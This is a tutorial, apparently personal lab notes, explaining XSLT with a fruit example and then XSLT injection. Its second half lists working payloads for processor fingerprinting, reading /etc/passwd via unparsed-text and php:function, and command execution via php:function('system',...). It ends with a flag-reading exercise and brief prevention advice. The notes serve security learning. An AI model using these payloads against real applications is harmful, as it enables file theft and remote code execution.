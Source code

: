 # Introduction:
eXtensible Stylesheet Language Transformation [XSLT](https://www.w3.org/TR/xslt-30/) is a Language enabling the the transformation of XML documents. It can
select specific nodes from documents and change the XML structure.

- eXtensible Stylesheet Language Transformation (XSLT):
We will consider the following sample XML documents to explore how XSLT operates:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<fruits>
    <fruit>
        <name>Apple</name>
        <color>Red</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Banana</name>
        <color>Yellow</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Strawberry</name>
        <color>Red</color>
        <size>Small</size>
    </fruit>
</fruits>
```
XSLT can be used to define a data format which is sebsequently enriched with data from the XML document. Data is structure similary to XML, its contains XSL elements within nodes
prefixed with the xsl-prefix The following are some commonly used XSL elements:
- <xsl:template>: this element indicates an XSL template, it can contain a match attribute that contains a path in the XML docuemt that the template applies to.
- <xsl:value-of>: this elements extract the value of the XML node specified in the select attribute.
- <xsl:for-each>: this element enable looping over all XML nodes specified in the select attribute.

A simple XSLT document used to output all fruts contained whithin the XML document as well as their coloer may look like this:
```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```
As we can see the XSLT docuemt contains a sincle <xsl:template> elemet that is applied to the <fruits> node in the XML docuemnt. The
consists of the static string [Here are all the fruits:] and loop over all <fruts> node in the XML document. Each of these nodes, the values
of the <name> and <color> nodes are printed using thje <xsl:value-of> XSL element. Combining the sample XML document with the above XSLT data result
in the output:
```output
Here are all the fruits:
    Apple (Red)
    Banana (Yellow)
    Strawberry (Red)
```
Some additional elements that cna be used to narrow down futher or customize that data form an XML format:
- <xsl:sort> This element specifies how to sort element in a for loop in the select arguemnt. A sort order may be specified in order argument
- <xsl:if> this element can be used to test conditions on node, the condition is specified in the test argument.

# XSLT INjection:
Occurs whenever user input is inserted into XSL data before output generation by the XSLT processor, Enables an attacker to inject addiotional XSL elements into the XSL data which the sSLT process
will execute during the output generation.

First at all we must to identifying XSLT Injection:
As we can see the nsame we provide is reflected on the page. The web app stores the module information in an XML document and diplayes the data using XSLT processing. It mighth suffer form XSLT injection
if out inserted without sanitazation before XSLT processing. To confirm that, let us try to inject a broken XML tag to try provoke an error in a web app.

- information Diclosure:
We can try the infer some basic information about the XSLT processor in use by injecting the XSLT elements:
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />

```

- Local file injection:
We can try to use a multiple different funtions to read a local file, payload will work depensds on the XLST version and the configuration od th XSLT libreary. Contain a funtion unparsed-text that can be used to read a local file:
`<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`

Our sample web app does not support this funtion and instead errors out, If the XSLT libreary is configured to supp PHP funtions, we can call the PHP funtions file_get_contents using the XSLT element:
`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`
- RCE:
We can call the PHP funtion system to execute a command:
`<xsl:value-of select="php:function('system','id')" />`

Execise:
Exploit the XSLT Injection vulnerability to obtain RCE and read the flag
`<xsl:value-of select="php:function('system','cat ../../../flag.txt')" />`
![Result](../Img/xslt.png)

- Preventing Injections:
Similary injection vulnerabilities dicussed, XSLT injection can prevented by ensuring that user input is not inserted into XSL data before
processing by th XSLT processor. If the output should reflect values provided by the user, user-provided data might be required to be added to the XSL document  before processing.
It's essential to impleent proper sanitazation an input validation avoid XSLT injection vulnerability.
As HTML-encoding converts all instances of < to &lt; and > to &gt;, an attacker should not be able to inject additional XSLT elements, thus preventing an XSLT injection vulnerability.

